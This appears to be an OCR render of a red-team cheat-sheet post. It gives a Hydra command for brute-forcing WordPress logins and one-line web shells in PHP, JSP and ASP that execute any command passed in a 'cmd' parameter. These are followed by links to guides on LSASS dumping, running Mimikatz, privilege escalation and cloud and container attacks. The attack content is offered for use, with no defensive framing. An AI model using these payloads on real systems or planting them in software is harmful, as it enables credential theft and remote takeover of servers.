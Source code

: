 🚨 Brute Force Using Hydra
hydra -l <username> -P <password_list> -t 1 -f <ip> http-post-form "/wp-login.php:name=^USER^&pwd=^PASS^:F=Incorrect password"
"/wp-login.php:name=^USER^&pwd=^PASS^:F=Incorrect password"

🚨 Web Shells : PHP
<?php system($_REQUEST["cmd"]); ?>
<?php system($_GET["cmd"]); ?>

🚨 Web Shells : JSP
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

🚨 Web Shells : ASP
<% eval request("cmd") %>




https://lnkd.in/esmn4d6j


Red Team Recipes

Kevin Mitnick Lessons (RTC0012)
https://lnkd.in/ekaNNZC3

25 Methods for Pipeline Attacks(RTC0011)
https://lnkd.in/exftHCuq

100 Methods for Container Attacks (RTC0010)
https://lnkd.in/e9bTin_k

60 Methods For Cloud Attacks (RTC0009)
https://lnkd.in/etTExQ2g

Awesome Maltego Transforms(RTC0008)
https://lnkd.in/edmu7Cib

Satellite Hacking Demystified(RTC0007)
https://lnkd.in/evVHKeCK

Large Language Model Prompts (RTC0006)
https://lnkd.in/eNz9j7eW

Finding 0-day vulnerabilities in apps using the Red Team approach(RTC0005)
https://lnkd.in/ecG2yPPJ

Methods For Fileless Execution(RTC0004)
https://lnkd.in/e2-BuQPX

64 Methods For Execute Mimikatz(RTC0003)
https://lnkd.in/ewG-GQ5t

50 Methods For Lsass Dump (RTC0002)
https://lnkd.in/e_qtwKAJ

40 Methods For Privilege Escalation (RTC0001)
https://lnkd.in/ebMtvpnH


https://github.com/CyberSecurityUP/Offensivesecurity-Checklists/blob/main/Active%20Directory%20PenTest%20Tools.png
